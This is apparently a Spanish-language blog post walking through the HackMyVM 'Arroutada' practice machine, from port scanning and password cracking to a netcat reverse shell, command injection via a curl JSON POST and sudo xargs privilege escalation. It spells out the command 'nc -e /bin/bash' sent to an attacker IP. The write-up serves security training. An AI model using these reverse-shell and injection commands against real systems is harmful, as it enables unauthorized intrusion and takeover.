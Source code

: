 ```yaml
---
layout      : post
title       : "Arroutada - HackMyVm"
author      : elc4br4
image       : assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
optimized_image : assets/images/HMV/Arroutada-HackMyVM/Arroutada.webp
category    : [ HackMyVM ]
tags        : [ Linux ]
description : En esta ocasión resolvemos la máquina **Arroutada** creada por Rijaba1 que está disponible en la plataforma de **HackmyVm**.
---
```


En esta ocasión resolvemos la máquina **Arroutada** creada por Rijaba1 que está disponible en la plataforma de **HackmyVm**.

**Un pequeño INDICE**

1. [Reconocimiento](#reconocimiento).
2. [Explotación](#explotación).
3. [Escalada de Privilegios](#priv-esc).

***

# Reconocimiento [#](reconocimiento) {#reconocimiento}

Comenzamos como siempre lanzando **nmap** para realizar un reconocimiento de puertos.

`nmap -p- -Pn -n --min-rate 5000 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled.png)

A continuación lanzo una serie de scripts básicos de nmap (sC) y el parámetro sV para descubrir los servicios y versiones que corren en cada puerto, en este caso solo en el puerto 80, ya que es el único puerto abierto.

`nmap -p80 -sCV -n -Pn 192.168.0.30`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%201.png)

Tenemos un servidor **apache httpd 2.4.54** y poco más, por lo que comienzo a enumerar.

# Explotación [#](explotación) {#explotación}

Tras acceder desde el navegador encontré lo siguiente:

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%202.png)

Parece una simple imagen pero podría tener algo escondido por lo que decido descargarla y lanzar herramienta **exiftool** para **analizar los metadatos de la imagen** y buscar posibles pistas.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%203.png)

Y encuentro una ruta “**/scout**” por lo que accedo a ella desde el navegador.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%204.png)

Vemos otra ruta **/scout/******/docs** pero nos falta descubrir la ruta que hay entre medias, por lo que toca **fuzzear** y para ello usaré **wfuzz**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%205.png)

Y encuentro la ruta **/j2**, por lo que ya tengo la ruta completa asique accedo a la misma desde el navegador.

Al accede encuentro un montón de archivos.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%206.png)

En el archivo **pass.txt** no hay nada de interés pero el archivo **shellfile.ods** si me llama la atención, la **extensión .ods** es de **LibreOffice** por lo que lo descargo y lo abro pero me pide contraseña…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%207.png)

Para poder craquearlo existe una utilidad de **John The Ripper** llamada **libreofficejohn2.py** con la que puedo generar el hash y craquearlo después.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%208.png)

Ahora lo crackeo con John y obtengo la contraseña.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%209.png)

**john11** es la contraseña.

Abro el archivo y encuentro esto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2010.png)

Encuentro otra ruta, esta vez un archivo php, por lo que podría haber un **RCE** asique pruebo a fuzzear de nuevo…

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2011.png)

Veo que el parámetro a es el que necesito para ejecutar el RCE pero al intentarlo me arroja otro un error.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2012.png)

Se me ocurre combinar el parámetro **a con el b** y **fuzzear** de nuevo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2013.png)

Y por suerte lo consigo.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2014.png)

Por lo que ahora intento obtener acceso al sistema introduciendo una **reverse shell en netcat**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2015.png)

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2016.png)

Consigo acceso a la máquina pero primero he de realizar el tratamiento de la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```

Tras **actualizar la tty** echo un vistazo a los usuarios existentes en la máquina y veo que existe el usuario **drito**, por lo que lo primero será migrarme a este usuario asique procedo a enumerar un poco…

Lo primero que hago es buscar **procesos existentes** pero no veo nada que me llame la atención, por lo que mi siguiente paso es buscar algún puerto abierto…

Hago uso del comando **netstat** pero no está instalado en el sistema por lo que pruebo a usar `ss -tulpn` y veo que existe el **puerto 8000** abierto.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2017.png)

Para poder acceder a este puerto he de usar **chisel** o parecidos para poder efectuar un **Port Forwarding**.

Paso el binario de **chisel** a la máquina víctima y efectúo los siguientes comandos.

- En la máquina atacante

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2018.png)

- En la máquina víctima

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2019.png)

Ahora ya puedo acceder al puerto 8000 desde mi navegador, y encuentro lo siguiente.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2020.png)

Es una cadena ofuscada en Brainfuck, por lo que la desofusco y veo el contenido.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2021.png)

- all HackMyVM hackers!!

Pero no me sirve de nada por lo que regreso al navegador e inspecciono el código fuente por si me he dejado algo por ahí…

Y por suerte encuentro una ruta **/priv.php**

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2022.png)

Accedo a la ruta e inspecciono el código fuente

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2023.png)

Nos dice que falta un parámetro (command) y podemos ver que el propio parámetro ha de ir en json, por lo que vamos a probar a hacerle una petición POST con curl usando el parámetro command y metiendo la data en json.

Esto lo hago de la siguiente forma:

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "whoami;id;hostname"}´             
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2024.png)

Al ver que funciona lo que hago es intentar ganar acceso a la máquina a través de una reverse shell en netcat.

```bash
curl -X POST "http://127.0.0.1:8000/priv.php" -d ´{"command": "nc -e /bin/bash 192.168.0.18 1234"}´
```

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2025.png)

Consigo ganar acceso a la máquina como el usuario **drito**, por lo que lo siguiente paso es escalar privilegios a root, pero antes como de costumbre lo primero es actualizar la tty.

```bash
script /dev/null -c bash
CTRL+Z
stty raw -echo; fg
reset
xterm-256color
export XTERM=xterm-256color
export SHELL=bash
```
# ESCALADA DE PRIVILEGIOS [#](priv-esc) {#priv-esc}

Tras actualizar la tty lanzo el comando `sudo -l.`

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2026.png)

Puedo ejecutar el binario xargs como root sin contraseña por lo que lo primero que se me ocurre al tratarse de un binario es dirigirme a [gtfobins](https://gtfobins.github.io/).

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2027.png)

Ejecuto el comando y… me convierto en **root**.

![](/assets/images/HMV/Arroutada-HackMyVM/Untitled%2028.png)

Gracias Rijaba por esta máquina!!!! 